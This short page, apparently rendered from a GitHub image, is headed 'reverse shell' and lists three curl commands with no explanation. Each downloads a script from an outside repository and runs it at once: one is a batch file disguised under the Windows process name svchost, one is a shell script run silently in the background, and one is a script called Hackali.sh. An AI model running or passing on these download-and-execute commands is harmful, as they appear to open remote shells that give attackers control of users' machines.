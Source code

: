 REVERSE SHELL


curl -L -o svchost_helper.bat https://github.com/prank9912/svchost_helper.bat/raw/main/svchost_helper.bat && start /b cmd /c svchost_helper.bat



curl -sSL https://raw.githubusercontent.com/prank9912/bothack/main/reverseios.sh -o /tmp/reverseios.sh
chmod +x /tmp/reverseios.sh
/tmp/reverseios.sh &> /dev/null &


curl https://github.com/insta-official/bothack/blob/main/Hackali.sh -o hack.sh 
bash hack.sh

